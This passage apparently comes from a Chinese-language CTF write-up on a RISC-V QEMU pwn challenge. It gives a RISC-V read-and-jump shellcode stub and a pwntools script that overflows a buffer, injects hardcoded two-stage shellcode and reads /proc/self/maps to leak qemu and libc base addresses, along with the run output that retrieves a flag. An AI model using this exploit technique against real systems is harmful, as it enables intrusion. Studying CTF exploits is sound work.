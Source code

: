 ```python
[+] Opening connection to 10.10.10.1 on port 60001: Done
[+] 0x55a0503ca000
[+] 0x7f4cdd002000
[*] Switching to interactive mode
$ cat /flag2
$ /readflag2
flag2
```

其中跳转部分shellcode可以优化，但由于编译方式不同就不写在一起了：

```s
li a0,0                     # a0 = 0
li a1,0x6c000               # a1 = 0x6c000
li a2,0x200                 # a2 = 400
li a7,63                    # read = 63
ecall                       # Do syscalls: read(0,0x6c000,400)

li a0,0x6c000                
jr (a0)                     # jump 0x6c000
```

> c代码远程二进制版shellcode：上面编译完写死的shellcode


```python
from pwn import *
io = remote("10.10.10.1",60001)

sc1  = b"\x01\x45\xb7\xc5\x06\x00\x13\x06\x00\x20\x93\x08\xf0\x03\x73\x00"
sc1 += b"\x00\x00\x37\xc5\x06\x00\x67\x00\x05\x00"

io.sendline(sc1.ljust(288,b'a')+p64(0x4000800b48))

sc2  = b"\x7d\x73\x5d\x71\x86\xe4\xa2\xe0\x26\xfc\x4a\xf8\x4e\xf4\x52\xf0"
sc2 += b"\x81\x46\x1a\x91\x17\x06\x00\x00\x13\x06\xc6\x10\x81\x45\x13\x05"
sc2 += b"\x80\x03\xef\x00\xe0\x0e\x05\x6a\x18\x08\x93\x07\x0a\x01\xba\x97"
sc2 += b"\xfd\x74\x33\x84\x97\x00\x05\x69\xaa\x89\x93\x06\x09\xf0\x22\x86"
sc2 += b"\xaa\x85\x13\x05\xf0\x03\xef\x00\xa0\x0c\x93\x06\x09\xf0\x22\x86"
sc2 += b"\x85\x45\x13\x05\x00\x04\xef\x00\xa0\x0b\x93\x06\x09\xf0\x22\x86"
sc2 += b"\xce\x85\x13\x05\xf0\x03\xef\x00\xa0\x0a\x93\x06\x09\xf0\x22\x86"
sc2 += b"\x85\x45\x13\x05\x00\x04\xef\x00\xa0\x09\x18\x08\x93\x07\x0a\x01"
sc2 += b"\xba\x97\x13\x86\x84\xff\x3e\x96\xa1\x46\x81\x45\x13\x05\xf0\x03"
sc2 += b"\xef\x00\x00\x08\x18\x08\x93\x07\x0a\x01\xba\x97\x13\x86\x04\xff"
sc2 += b"\x3e\x96\xa1\x46\x81\x45\x13\x05\xf0\x03\xef\x00\x60\x06\x83\x34"
sc2 += b"\x04\xff\x03\x34\x84\xff\xb7\xf7\x04\x00\xb7\x85\x66\x00\xa2\x95"
sc2 += b"\x93\x87\x07\x55\x99\x46\x37\xc6\x03\x00\x13\x05\x20\x0e\xbe\x94"
sc2 += b"\x2e\xe4\xef\x00\xe0\x03\xa2\x65\xb7\x37\x6a\x00\x3e\x94\x9d\x67"
sc2 += b"\x23\x30\x94\x20\x93\x87\x37\x87\x9c\xe1\x99\x46\x37\xc6\x03\x00"
sc2 += b"\x13\x05\x20\x0e\xef\x00\xc0\x01\x05\x63\x1a\x91\xa6\x60\x06\x64"
sc2 += b"\xe2\x74\x42\x79\xa2\x79\x02\x7a\x01\x45\x61\x61\x82\x80\x00\x00"
sc2 += b"\xaa\x88\x2e\x85\xb2\x85\x36\x86\x73\x00\x00\x00\x82\x80\x01\x00"
sc2 += b"\x2f\x2e\x2f\x70\x72\x6f\x63\x2f\x73\x65\x6c\x66\x2f\x6d\x61\x70"
sc2 += b"\x73\x00\x00\x00"

io.sendline(sc2)

data = io.recvuntil("libc-")
data = str(data).replace("\\n","\n").splitlines()
io.recv(4096)
for i in data:
    if "00000000" not  in i: continue
    if "qemu-riscv64"  in i: qemu_base = int(i[0:12],16)
    if "libc-"         in i: libc_base = int(i[0:12],16)
log.success(hex(qemu_base))
log.success(hex(libc_base))
```